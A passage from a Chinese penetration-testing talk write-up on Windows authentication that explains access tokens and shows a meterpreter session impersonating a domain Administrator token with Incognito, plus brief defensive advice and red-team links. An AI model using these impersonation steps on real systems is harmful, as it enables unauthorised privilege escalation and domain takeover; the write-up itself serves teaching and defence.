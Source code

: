 SID的表现形式:

* 域SID-用户ID
* 计算机SID-用户ID
* SID列表都会存储在域控的AD或者计算机本地账户数据库中。

### Windows Access Token产生过程

每个进程创建时都会根据登录会话权限由LSA(Local Security Authority)分配一个Token(如果CreaetProcess时自己指定了 Token, LSA会用该Token， 否则就用父进程Token的一份拷贝。

### Windows Access Token令牌假冒实战

**当用户注销后，系统将会使主令牌切换为模拟令牌，不会将令牌清 除，只有在重启机器后才会清除。**

可以使用多种工具查看目前系统上存在的模拟令牌:
* Incognito
* Powershell - Invoke-TokenManipulation.ps1
* Cobalt Strike - steal_token 

案例(针对某跨国企业的一次渗透测试 获取DC权限）: http://blog.360ec.net/archives/32/

### Windows Access Token令牌假冒实战

```
meterpreter > getsystem
meterpreter > load incognito meterpreter > list_tokens –u
Delegation Tokens Available ============================== NT AUTHORITY\LOCAL SERVICENT AUTHORITY\NETWORK SERVICENT AUTHORITY\SYSTEM PAYLOADS\Administrator PAYLOADS\w7
meterpreter > impersonate_token "PAYLOADS\\Administrator”
[+] Delegation token available
[+] Successfully impersonated user PAYLOADS\Administrator
```

### Windows Access Token令牌假冒防御

禁止Domain Admins登录对外且未做安全加固的服务器，因为一旦服务器被入侵，域管理员的令牌可能会被攻击者假冒，从控制DC。

如果想清除假冒，重启服务器即可。

## 0x04 知识点总结

本次议题围绕着Windows认证分别讲解了Pass The Hash、Silver Tickets、Golden Tickets、 Impersonation Token的原理。
这些技术分别能够满足我们在渗透中持续的维持权限、提权。

可拓展:

域渗透技术/思路，SPN扫描，Red/Blue team 

* https://lolbas-project.github.io/
* https://gtfobins.github.io/ 
* https://github.com/yeyintminthuhtut/Awesome-Red-Teaming

## 0x05 议题资料分享

技术分享议题 —《彻底理解Windows认证》

附ppt、目录、演示视频、演讲视频，时长：1小时50分钟左右（1080P画质）

分享链接：
https://yunpan.360.cn/surl_ymCtyG7w5wh (提取码:46de)



